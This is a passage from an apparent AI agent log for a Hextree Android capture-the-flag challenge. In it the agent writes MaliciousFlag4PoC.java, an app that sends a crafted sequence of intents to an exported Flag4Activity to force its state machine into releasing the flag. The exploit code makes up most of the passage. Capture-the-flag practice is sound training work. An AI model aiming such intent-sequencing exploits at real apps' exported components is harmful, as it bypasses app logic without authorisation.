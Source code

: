     *   **Sinks:** N/A for this manifest file.
*   **3. Data Flow Tracing:** N/A for this manifest file.
*   **4. Security Control Analysis:** N/A for this manifest file.
*   **5. Vulnerability Hypothesis:** The manifest correctly sets up a basic Android application structure for the PoC. The next step is to create the Java source code for `MaliciousFlag4PoC.java` that will send the sequence of intents to `Flag4Activity`.

My PoC will be a small, self-contained malicious Android application that I will write to a file. It will have its own `AndroidManifest.xml` and Java source file. It will target an exported component (Activity, Service, etc.) of the main application.


Function Call: id=None args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TAG = "MaliciousFlag4PoC";\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        setContentView(R.layout.activity_main); // Assuming a simple layout exists or can be ignored for PoC\n\n        Log.d(TAG, "MaliciousFlag4PoC started.");\n        Toast.makeText(this, "Attempting to solve Flag 4...", Toast.LENGTH_LONG).show();\n\n        try {\n            // Step 1: Transition to PREPARE state\n            Intent prepareIntent = new Intent();\n            prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            prepareIntent.setAction("PREPARE_ACTION");\n            startActivity(prepareIntent);\n            Log.d(TAG, "Sent PREPARE_ACTION intent.");\n            Thread.sleep(1000); // Give target activity time to process\n\n            // Step 2: Transition to BUILD state\n            Intent buildIntent = new Intent();\n            buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            buildIntent.setAction("BUILD_ACTION");\n            startActivity(buildIntent);\n            Log.d(TAG, "Sent BUILD_ACTION intent.");\n            Thread.sleep(1000); // Give target activity time to process\n\n            // Step 3: Transition to GET_FLAG state\n            Intent getFlagIntent = new Intent();\n            getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            getFlagIntent.setAction("GET_FLAG_ACTION");\n            startActivity(getFlagIntent);\n            Log.d(TAG, "Sent GET_FLAG_ACTION intent.");\n            Thread.sleep(1000); // Give target activity time to process\n\n            // Step 4: Trigger success(this) - any intent will do\n            Intent triggerSuccessIntent = new Intent();\n            triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            // No specific action needed, just sending an intent\n            startActivity(triggerSuccessIntent);\n            Log.d(TAG, "Sent final trigger intent to call success(this).");\n            Toast.makeText(this, "Flag 4 exploit sequence sent. Check target app for flag.", Toast.LENGTH_LONG).show();\n\n        } catch (Exception e) {\n            Log.e(TAG, "Error during exploit sequence: " + e.getMessage());\n            Toast.makeText(this, "Error: " + e.getMessage(), Toast.LENGTH_LONG).show();\n        }\n    }\n}\n', 'file_path': 'MaliciousFlag4PoC.java'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---